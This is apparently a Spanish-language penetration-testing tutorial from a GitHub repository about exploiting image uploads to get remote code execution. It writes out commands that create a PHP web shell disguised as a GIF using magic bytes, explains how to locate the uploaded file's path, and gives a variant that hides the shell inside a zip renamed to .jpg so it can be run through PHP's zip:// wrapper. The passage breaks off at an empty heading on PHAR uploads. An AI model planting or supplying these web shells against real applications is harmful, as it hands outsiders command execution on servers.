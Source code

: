 ![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/572635d7-39b6-4962-b407-da69edb1f716)

## SUBIDAD DE IMAGEN

La subida de imagen es muy común en todas las aplicaciones modernas, subir imagenes seguras y la funcion de codificarlas. Sin embargo la vulnerabilidad en este caso si que nos funciona

### CONSTRUIR UNA IMAGEN MALICIOSA

Nuestro primer paso sera crear una imagen maliciosa que contenga codigo PHP con una web shell y funcione como imagen. Nosotros usamos extensiones de la imagen como "shell.gif" y incluye unos pequeños bytes de magia 

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```


El archivo es nuestro y completamente inofensivo o eso parece.

Solamente necsitamos subirlo por ejemplo en un "profile settings" y cambialo por nuestra imagen. 

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/7a50aa87-a1e7-4ba2-b1e3-9e2413118c0d)

## ROTA DE SUBIDA DE LA IMAGEn

Una cosa importante es saber donde se sube el fichero, Para incluido necesitamos subir un fichero, especialmente con imagenes, podemos acceder nuestro subida y saber donde ha llegado
```
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Cuando pulsamos la ruta e incluimos la desacga el codigo se deberia ejecutar

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/3ae9e40e-cf24-4d5c-903a-5ad0d97da7e6)

## SUBIDA ZIP

Anteriormente mencionado, hay bastantes tecnicas en muchos casos utilizamos frameworks, una seccion vulnerable para ejecución de código remoto. Hay otras técnicas PHP que utilizan wrappers para archivar. Estas técnicas se hacer para especificar casos donde otras técnicas no funcionan.

Podemos utilizar el envoltorio zip para jecutar código como "shell.jpg"

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Una vez subido "shell.jpg" podemos incluid el wrapper zip://shell.jpg y otras referencias de fichero con #shell.hp codificoad

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/7e619891-7caf-4204-af50-d09dde43b90f)

## SUBIDA PHAR
